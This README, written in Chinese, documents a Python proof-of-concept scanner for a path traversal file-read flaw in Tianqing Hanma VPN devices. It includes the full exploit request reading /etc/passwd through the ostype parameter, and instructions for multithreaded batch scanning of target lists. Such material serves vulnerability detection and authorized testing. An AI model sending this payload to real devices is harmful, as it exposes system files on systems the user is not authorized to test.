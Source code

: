 # 天清汉马VPN任意文件读取漏洞POC工具

## 工具简介
本工具用于检测**天清汉马VPN设备**是否存在任意文件读取漏洞。该漏洞通过构造特殊请求路径，可读取服务器敏感系统文件（如`/etc/passwd`），可能导致服务器信息泄露，进一步威胁系统安全。

工具基于Python开发，支持单URL检测与多URL批量检测，通过多线程提升批量检测效率，并将存在漏洞的目标结果保存至本地文件，方便后续分析。


## 漏洞原理
天清汉马VPN设备的`/vpn/user/download/client`接口存在路径遍历漏洞，攻击者可通过`ostype`参数传入`../../../../../../../../../etc/passwd`等路径遍历 payload，绕过服务器文件访问限制，读取`/etc/passwd`（Linux系统用户信息文件）等敏感文件。

本工具通过检测目标是否能成功返回`/etc/passwd`中的特征内容（如`root:x:0:0:root:/root:/sbin/nologin`），判断目标是否存在该漏洞。


## 环境依赖
### 基础环境
- Python 3.6 及以上版本（推荐Python 3.8+）
- 网络连通性（需能访问目标VPN设备的HTTP/HTTPS端口）

### 依赖库
工具依赖以下Python第三方库，需提前安装：
| 依赖库 | 作用 |
|--------|------|
| `requests` | 发送HTTP/HTTPS请求 |
| `urllib3` | 处理HTTPS证书警告（已禁用不安全请求警告） |
| `argparse` | 解析命令行参数（Python标准库，无需额外安装） |
| `multiprocessing.dummy` | 实现多线程批量检测（Python标准库，无需额外安装） |

### 安装命令
打开终端/命令提示符，执行以下命令安装依赖库：
```bash
pip install requests urllib3
```


## 工具使用
### 命令格式
工具通过命令行参数指定检测模式（单URL/批量URL），基本命令格式如下：
```bash
python 工具文件名.py [参数]
```

### 参数说明
| 参数 | 简写 | 作用 | 示例 |
|------|------|------|------|
| `--url` | `-u` | 单URL检测，指定单个目标VPN设备地址 | `-u http://192.168.1.100` 或 `-u https://vpn.example.com` |
| `--file` | `-f` | 批量检测，指定包含多个目标URL的文本文件路径 | `-f target_urls.txt` |
| `--help` | `-h` | 查看工具帮助信息，展示参数说明 | `-h` |

### 操作示例
#### 1. 查看帮助信息
```bash
python hanma_vpn_poc.py -h
```
输出结果：
```
usage: hanma_vpn_poc.py [-h] [-u URL] [-f FILE]

天清汉马vpn任意文件读取漏洞 

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     place input like http://192.168.1.100
  -f FILE, --file FILE  place input your target file path (each URL per line)
```

#### 2. 单URL检测
检测单个目标（如`http://192.168.1.200`）是否存在漏洞：
```bash
python hanma_vpn_poc.py -u http://192.168.1.200
```
**输出说明**：
- `[+] http://192.168.1.200 存在sql注入漏洞`：目标存在漏洞（注：代码中漏洞类型描述为笔误，实际为“任意文件读取漏洞”），并自动写入`result1.txt`。
- `[-] 该http://192.168.1.200 不存在sql注入漏洞`：目标不存在漏洞。
- `[*] 该http://192.168.1.200 存在问题,请手工测试`：目标HTTP状态码非200，需手工排查（如端口不可达、访问权限限制等）。

#### 3. 批量URL检测
1. **准备目标文件**：创建`target_urls.txt`，每行写入一个目标URL（支持HTTP/HTTPS，若未指定协议，工具自动补充`http://`），示例内容：
   ```
   http://192.168.1.100
   https://vpn.example.com
   192.168.1.101:8443  # 带端口的URL
   ```
2. **执行批量检测**：
   ```bash
   python hanma_vpn_poc.py -f target_urls.txt
   ```
3. **结果保存**：存在漏洞的目标URL会自动追加保存至当前目录下的`result1.txt`文件中，格式为每行一个URL。


## 注意事项
1. **合法性声明**：
   - 本工具仅用于**合法授权的安全测试**（如企业内部安全自查、经客户授权的渗透测试），禁止用于未授权的攻击行为。
   - 滥用本工具可能违反《中华人民共和国网络安全法》《刑法》等法律法规，使用者需承担相应法律责任。

2. **网络环境**：
   - 确保工具运行设备能访问目标VPN设备的端口（通常为80/443，或自定义端口），若存在防火墙、WAF等防护设备，需提前排除干扰。
   - 工具已禁用HTTPS证书验证警告（`urllib3.disable_warnings`），适用于自签名证书的VPN设备，但可能存在一定安全风险（仅建议测试环境使用）。

3. **性能优化**：
   - 批量检测默认使用50个线程（`Pool(50)`），若目标数量过多或网络带宽有限，可修改代码中`mp=Pool(50)`的数字（如改为20、30），避免因线程过多导致网络拥堵或被目标设备拦截。

4. **漏洞类型修正**：
   - 代码中`print(f"[+]{target}存在sql注入漏洞")`为笔误，该漏洞实际为**任意文件读取漏洞**，使用时需注意区分，可手动修改代码中的漏洞类型描述以避免误解。

5. **结果验证**：
   - 工具检测结果仅为初步判断，若显示存在漏洞，建议通过浏览器或`curl`命令手工验证（如访问`https://target/vpn/user/download/client?ostype=../../../../../../../../../etc/passwd`），确认是否真的能读取敏感文件。


## 故障排查
| 常见问题 | 可能原因 | 解决方案 |
|----------|----------|----------|
| 执行命令后无任何输出 | 1. 参数错误（如同时指定`-u`和`-f`，或文件路径错误）<br>2. 目标文件为空 | 1. 执行`-h`检查参数格式，确保仅指定一种检测模式<br>2. 检查`target_urls.txt`是否有有效URL |
| 批量检测时部分目标无响应 | 1. 目标设备离线或端口不可达<br>2. 目标存在防护，拦截了工具请求 | 1. 使用`ping`、`telnet`测试目标网络连通性<br>2. 手动访问目标URL，排查是否存在防护机制 |
| `result1.txt`未生成 | 1. 无任何目标存在漏洞<br>2. 工具无写入权限（如Windows权限不足） | 1. 确认目标是否真的不存在漏洞，可手工测试<br>2. 以管理员身份运行终端/命令提示符，重新执行工具 |
| 报错`ModuleNotFoundError: No module named 'requests'` | 未安装`requests`库 | 执行`pip install requests`安装依赖 |

